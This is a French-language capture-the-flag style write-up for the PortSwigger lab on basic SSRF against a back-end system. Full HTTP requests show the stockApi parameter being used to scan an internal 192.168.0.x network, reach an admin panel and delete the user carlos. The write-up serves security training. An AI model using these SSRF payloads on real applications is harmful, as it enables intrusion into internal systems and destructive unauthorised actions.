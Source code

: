 # Lab

https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system

## Solution

On commence par scanner le réseau interne `192.168.0.*` avec la fonctionnalité de check de stock et Burp Intruder.

On envoie la requête suivante :

```http
POST /product/stock HTTP/2
Host: 0af70073047998e88369aa880046008b.web-security-academy.net
Cookie: session=m7xrkEhdZVVHWqRbNWSjJdBDTyyY0Rks
Content-Length: 43
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0af70073047998e88369aa880046008b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0af70073047998e88369aa880046008b.web-security-academy.net/product?productId=4
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

stockApi=http://192.168.0.§1§:8080/&storeId=1
```

Et on voit que sur l'IP `85` on a un `Not Found` contrairement aux autres IP qui renvoient un `500`.

```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

On essaie d'accéder à la page d'administration du serveur local sur l'IP `85` :

```http
POST /product/stock HTTP/2
Host: 0af70073047998e88369aa880046008b.web-security-academy.net
Cookie: session=m7xrkEhdZVVHWqRbNWSjJdBDTyyY0Rks
Content-Length: 49
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0af70073047998e88369aa880046008b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0af70073047998e88369aa880046008b.web-security-academy.net/product?productId=4
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

stockApi=http://192.168.0.85:8080/admin&storeId=1
```

Et on a une réponse avec l'URL `http://192.168.0.85:8080/admin/delete?username=carlos` dedans.

On réutilise la fonctionnalité de check de stock pour supprimer l'utilisateur `carlos` :

```http
POST /product/stock HTTP/2
Host: 0af70073047998e88369aa880046008b.web-security-academy.net
Cookie: session=m7xrkEhdZVVHWqRbNWSjJdBDTyyY0Rks
Content-Length: 72
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0af70073047998e88369aa880046008b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0af70073047998e88369aa880046008b.web-security-academy.net/product?productId=4
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

stockApi=http://192.168.0.85:8080/admin/delete?username=carlos&storeId=1
```